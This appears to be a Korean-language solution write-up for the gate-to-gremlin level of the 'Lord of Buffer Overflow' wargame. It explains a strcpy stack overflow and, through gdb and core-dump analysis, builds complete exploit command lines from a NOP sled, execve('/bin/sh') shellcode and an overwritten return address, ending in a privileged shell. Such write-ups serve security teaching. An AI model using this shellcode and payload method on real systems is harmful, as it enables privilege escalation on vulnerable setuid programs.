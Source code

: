 # LOB - Gate

## 주어진 파일

![1567941739468](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941739468-1568525084718.png)



ID : gate

PW : gate로 접속한다.



![1567941702228](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941702228.png)

```c
vi gremlin.c
```

![1567930461328](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567930461328.png)



위의 프로그램은 ./실행파일, 인자

를 넣어서 실행하는 파일로, 인자를 넣지 않는다면 error

인자를 넣는다면 인자를 그대로 출력해 주는 프로그램이다.

하지만, strcpy를 통해 buffer의 크기인 256을 넘어가면 문제가 생기게 된다.



## GDB

처음 gdb로 확인하려면 자신의 권한으로 까야하기 때문에 main 페이지에 있던 gremlin 파일을 디렉터리를 새로 만들어서 복사한다.

```mkdir
mkdir tmp
cp gremlin tmp/
```

![1567941473987](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941473987.png)



복사를 하고 나면 소유자와 그룹이 gremlin 이었던 파일이 자신의 이름인 gate와 gate로 바뀐 것을 볼 수 있다.

이제 gdb를 실행할 수 있다.



```c
gdb gremlin
```

![1567931017425](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567931017425.png)



gdb로 main문을 보면 sub 0x100으로 버퍼 크기인 256 바이트가 보인다.



![1567930817522](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567930817522.png)

위의 프로그램은 버퍼에 256 byte, SFP에 4 byte, RET에 4 byte 가 들어가서 



SFP :   Saved Frame Pointer로 프레임 포인터 값을 가지는 공간으로서 만약 main에서 다른 함수를 호출했을때, 돌아올 주소를 저장하는 공간이다.

-> EBP



RET은 Retrun Address 로써 프로그램이 마치면 돌아갈 주소를 저장하는 공간으로 bof의 궁극적 목적 공간이다.

이 ret을 조작하여 다른 곳으로 돌아가게 할 수 있으며, SetUID가 걸렸을 경우 쉘로 조작하여 상위 권한의 수을 얻을 수 있다.



RET은 우리가 실행해야할 주소가 들어가야하므로

Buffer 부분에 쉘코드를 집어 넣은 후 SFP까지 0x90으로 Nop 값을 채워주면 된다.

Buffer 는 256 byte

SFP 는 4 byte 이므로 260 byte를 채우고,

RET 에 내가 점프하고 싶은 부분의 주소를 넣으면 된다.



```c
buffer의 크기는 256 byte
SFP의 크기는 4 byte 
이므로 둘을 더한 260 byte (= 0x104)
    
./gremlin `python -c 'print "a"*0x104'`
를 실행하면 segmentation fault 가 뜬다.
```





## 쉘코드

- https://security-nanglam.tistory.com/117 에서 쉘코드 가져옴

![1567941320888](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567941320888.png)

```c
\x90으로 215 바이트
쉘코드 25 바이트
\x90 20바이트	를 채워서 Buffer + SFP 의 크기인 260 바이트를 채워주고
마지막에 RET 값을 넣는다.

./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"내가 점프하고 싶은 부분의 주소"'`
```

- 첫 부분에 쉘코드를 넣으면 정확한 주소 값을 알고 난 후 공격해야하므로 
- Nop으로 앞부분을 채워준 후 쉘코드 + Nop + RET 값을 넣는다.
- 하지만 쉘코드와 RET 주소 값을 가장 뒤에 같이 두면 쉘코드 뒤에 따라 나오는 값이 있을 수 있으므로

- 쉘코드 뒤에 어느 정도 Nop을 넣어준 후 마지막에 점프하고 싶은 부분의 주소(RET)를 넣어줘야한다.





일단 RET 부분에 aaaa를 넣고 aaaa가 어디에 들어가는지 보았다.

```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\x61\x61\x61\x61"'`
```



```c
gdb gremlin 명령어를 통해 gdb를 열고 위의 POC를 적는다.
```

![1567939292222](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567939292222.png)



0x61616161 주소가 뭐냐고 묻는다.



- RET에 0x61616161이 들어갔으므로 eip에 들어간다.

![1567939240330](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567939240330.png)



```c
x/100wx $esp+300 명령어로 어떻게 값이 들어갔는지 보면
```

![1567939933686](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567939933686.png)

위와 같이 Nop으로 값이 채워지고, 중간에 쉘코드, Nop, RET 값이 들어가는 것을 볼 수 있다.

이제 맨 마지막 0x61616161 자리에 Nop이 있는 주소 중 아무거나 넣어주면 된다.

하지만 tmp 디렉터리 내에서 실행하면 gremlin 파일이 gate 권한을 가지고 있으므로, main으로 돌아가서 실행한다.

![1567942068037](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567942068037.png)

```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\xdc\xfb\xff\xbf"'`
```





### 위의 명령어로 되지 않을때

하지만 gdb를 실행할때마다 주소값이 차이가 조금씩 나기 때문에,

위의 명령어로 되지 않을 수도 있다.

그래서 core 파일을 확인해본다.



- segmentation fault 날 때 core dumped 를 통해 나오는 core 파일을 확인한다.

![1567940758653](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567940758653.png)

위와 같이 core dumped가 나오면



다음과 같이 core 파일이 생긴다.

![1567941218417](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941218417.png)



```c
gdb -c core 명령어를 통해 들어간 후
```

![1567940878365](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567940878365.png)



```c
x/100wx $esp+300 값을 통해 값이 어디에 들어갔는지 확인해본다.
```

![1567941114068](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941114068.png)



이 중 Nop 값 중 하나를 선택해서 RET에 넣으면 된다.

하지만 tmp 디렉터리 내에서 실행하면 gremlin 파일이 gate 권한을 가지고 있으므로, main으로 돌아가서 실행한다.

![1567942068037](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567942068037-1568525258114.png)



```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\xcc\xfb\xff\xbf"'`
```

![1567941814846](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941814846.png)

쉘이 뜬다.



![1567941853794](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941853794.png)

ID를 보면 gremlin이 있다.

my-pass 를 보면 gremlin의 password가 나온다.